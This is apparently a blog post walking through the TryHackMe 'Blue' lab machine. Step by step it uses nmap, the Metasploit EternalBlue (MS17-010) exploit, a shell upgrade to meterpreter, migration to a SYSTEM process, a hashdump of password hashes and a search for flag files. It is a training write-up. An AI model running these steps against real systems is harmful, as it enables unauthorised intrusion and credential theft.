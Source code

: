 ```yaml
---
title: "BLUE"
date: 2021-08-28 
img_path: ../../assets/img/Posts/Blue
categories: [Tryhackme, Easy]
tags: [metasploit, eternal blue, nmap]     # TAG names should always be lowercase
---
```


> This was my first write-up which I posted on [Medium](https://medium.com/@YrnCollo/tryhackme-blue-4aff45201ca9) on **Aug 28, 2021**.
{: .prompt-danger }

Hello Everyone!
I’m Collins, a security researcher. This is an article on how to exploit blue a machine on [TryHackMe](https://tryhackme.com/dashboard) made by [DarkStar7471](https://tryhackme.com/p/DarkStar7471).
![image](001.png)_Title page_
## DEPLOYING THE MACHINE
To connect to TryHackMe you will need to download the `OpenVpn` and connect to their VPN. Once connected to their VPN start the machine and we are ready to exploit it. Once you have deployed the machine you would be given an IP address and one hour time (but you can add one hour) as shown in the figure bellow.
![starting machine](002.png)_fig 1.0_
## TASK 1: RECON

We shall start our recon by scanning the machine. The command we shall use is `nmap -sV -A <TARGET_IP>`

![nmap](003.png)_fig 2.0_

We can manually count the number of ports under 1000 on our nmap scan which is 3.

To know what is this machine vulnerable to we shall run `nmap <TARGET_IP>-script vuln` and the result should like as figure 3.0

![fig 3](004.jpeg)_fig 3.0_

As we can clearly see the target is vulnerable to ms17–010

## TASK 2: GAINING ACCESS

Now the fun part is here where we shall gain full access to our target.

The first thing to do is to launch `Metasploit`. This is done by writing `msfconsole` to the terminal as in figure 4.0

![fig 4](005.png)_fig 4.0_

Now we shall use the search feature to search for `ms17_010_` which we had earlier found that the target is vulnerable to. The full path of the exploit as found on the search is `exploit/windows/smb/ms17_010_eternalblue` as shown in the figure 5.0

![fig 5](006.png)_fig 5.0_

Use the show options and see what is required.Set `RHOST` to your target IP.(shown in figure 6.0)
![fig 6](007.png)_fig 6.0_

With that done, run the exploit… 

![fig 6.1](008.png)_fig 6.1_

We have to background the shell by `CTRL + Z` or by typing `background`.

![fig 6.2](009.png)_fig 6.2_

## TASK 3: ESCALATE

Alright, it’s now time to upgrade our shell to meterpreter. We shall find our upgrade module by searching for `shell_to_meterpreter` as shown in figure 7.1

![fig 7.0](010.png)_fig 7.0_

Select the `post/multi/manage/shell_to_meterpreter` by the use of `use` command as in figure 7.1

![fig 7.1](011.png)_fig 7.1_

Set `LHOST <Your_IP>`

![fig 7.2](012.png)_fig 7.2_

We use `sessions -i` command to see the current session

![fig 7.3](013.png)_fig 7.3_

We shall use the `run` command to get the meterpreter shell.

![fig](014.png)

Once again use the sessions -i command to see the current session and you’ll notice we have meterpreter shell as in figure 7.4

![fig 7.4](015.png)_fig 7.4_

Now we shall use `set SESSION 2` and start interaction with it.

![fig](016.png)_fig 7.5_

Since we have already connected through a meterpreter session to the target machine we can escalate privileges by the using the command getsystem. Use the `shell` command and run `whoami` then background the session.

![fig](017.png)

List all the process by the command `ps` and migrate to a process that is running at NT AUTHORITY\SYSTEM
To migrate we can use `migrate -N (name_of_the_process)` OR `migrate -P (process_ID)`

![fig](018.png)

## TASK 4: CRACKING

With our elevated meterpreter shell, run the command `hashdump` which will dump all of the passwords on the machine as long as we have the correct privileges.

![hashdamp](019.jpeg)

## TASK 5: FINDING FLAGS

**FLAG 1**

Flag one is located on the root of the machine in which is `C:/`

cat flag1.txt

![flag 1](020.png)_flag 1_

**FLAG 2**

We shall search for sam location on windows which is `C:\Windows\System32\config`

cat flag2.txt

![flag 2](021.png)_flag 2_

**FLAG 3**

We shall use the search function to search for flag3
```
search -f flag*.txt
cat c:\\Users\\Jon\\Documents\\flag3.txt
```
\#THANKS
